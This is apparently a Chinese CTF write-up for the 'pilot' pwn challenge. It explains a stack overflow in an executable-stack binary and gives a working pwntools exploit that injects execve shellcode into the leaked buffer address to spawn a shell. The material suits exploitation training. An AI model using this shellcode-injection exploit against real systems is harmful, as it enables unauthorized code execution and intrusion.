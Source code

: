 ```plaintext
λ ~/ ./pilot
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7ffdaefb40d0
[*]Command:self-destruct
```

伪代码如下：

![](https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.8ojztnbibt.avif)

可以看到除了 `main` 函数之外就没有别的函数了，那就不是 `ret2win` 题型。

接收的输入大于 `buf` 的大小，存在栈溢出漏洞。由于栈可执行，我们可以尝试运行 shellcode 来 get shell。

在栈中安排 shellcode 的布局如下：因为程序给出了 `buf` 的地址，所以我们可以将 shellcode 插在 `buf` 的头部，然后填满 `buf` 的剩余空间，最后将 `buf` 的起始地址溢出到 `ret` 就实现了执行 shellcode 的逻辑。

这里有一个现成的 [shellcode](http://shell-storm.org/shellcode/index.html) 网站。

## Exploit

```python
#!/usr/bin/python3

from pwn import *

context(os='linux', arch='amd64', log_level='debug', terminal='kitty')

target = process('./pilot')

recvline    = lambda : target.recvline()
recvuntil   = lambda str : target.recvuntil(str)
sendline    = lambda str : target.sendline(str)
interactive = lambda : target.interactive()

recvuntil(b':')
leak_addr = p64(int(recvline(), 16))

shellcode = b'\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05'
payload = shellcode + b'A' * (0x28 - len(shellcode)) + leak_addr

sendline(payload)
interactive()
```

## Flag
